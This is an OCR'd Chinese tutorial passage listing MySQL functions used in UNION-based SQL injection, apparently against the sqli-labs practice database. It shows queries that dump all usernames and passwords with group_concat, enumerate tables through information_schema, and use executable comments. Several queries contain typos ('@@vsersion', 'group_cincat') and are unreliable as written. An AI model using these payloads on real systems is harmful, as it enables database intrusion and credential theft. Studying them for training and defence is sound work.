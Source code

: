 ## 六，CONCAT函数
- select * from security.users where id=1 union select 1,2,`concat(char(65),char(66),char(67))`# limit 0,30;

    >这字符拼接函数，可以结合char函数使用

## 七，SUBSTR函数
- select * from security.users where id=1 union select 1,2,`substr('abcd',3,2)`#; limit 0,30;

    >这是从字符串提取字符用的

    >表示从第三位 提取两位

## 八，IF函数
- select * from security.users where id=1 union select 1,2,`if(database()='security','true','false')` limit 0,30;

    >mysql中的if函数格式为 if（条件，成立语句，失败语句）

## 九，获取数据库版本
- select * from security.users where id=1 union select 1,1,`@@vsersion` #; limit 0,30;

    >使用@@version,可以当做一个常亮来查询使用

## 十，GROUP_CONCAT函数
- select * from security.users where id=1 union select 1,`group_concat(username)`,`group_cincat(password)` from users #; limit 0,30;

    >这个函数可以将多条结果合并在一条输出，非常常用

## 十一，获取当前数据库名
- select * from security.users where id=1 union select 1,2,`database()` limit0,30
    >使用database()函数，可以显示数据库名。
    >database()的返回值显示在联合查询的第三个位置，也就是前面3的位置。

## 十二，获取该数据库的所有表名和列名
- select * from security.users where id=1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' limit 0,30;

    >使用information_schema_tables表，这是mysql的一个系统表，这里记录了所有表的信息，可以从这里查询到某个数据库的所有表。
    >table_schema是该表中的一个字段名，记录着每张表属于哪个数据库。

    >同理获取列名
    >- Select column_name from information_schema.columns where
    Table_shcema=database() and table_name=’指定的表名’；

## 十三，/*！ xxx  */  可执行的注释
- select * from security.users where id=1 union `/*!select*/` 1,2,database();

